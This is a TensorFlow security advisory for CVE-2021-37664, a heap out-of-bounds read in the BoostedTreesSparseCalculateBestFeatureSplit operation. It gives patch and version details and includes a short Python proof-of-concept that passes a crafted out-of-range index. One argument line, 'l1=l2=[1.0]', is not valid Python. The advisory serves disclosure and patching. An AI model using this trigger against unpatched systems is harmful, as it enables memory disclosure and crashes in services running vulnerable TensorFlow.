 ## TFSA-2021-137: Heap OOB in boosted trees

### CVE Number
CVE-2021-37664

### Impact
An attacker can read from outside of bounds of heap allocated data by sending
specially crafted illegal arguments to
`BoostedTreesSparseCalculateBestFeatureSplit`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesSparseCalculateBestFeatureSplit(
  node_id_range=[0,10],
  stats_summary_indices=[[1, 2, 3, 0x1000000]],
  stats_summary_values=[1.0],
  stats_summary_shape=[1,1,1,1],
  l1=l2=[1.0],
  tree_complexity=[0.5],
  min_node_weight=[1.0],
  logits_dimension=3,
  split_type='inequality')
```

The
[implementation](https://github.com/galeone/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
needs to validate that each value in `stats_summary_indices` is in range.

### Patches
We have patched the issue in GitHub commit
[e84c975313e8e8e38bb2ea118196369c45c51378](https://github.com/galeone/tensorflow/commit/e84c975313e8e8e38bb2ea118196369c45c51378).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
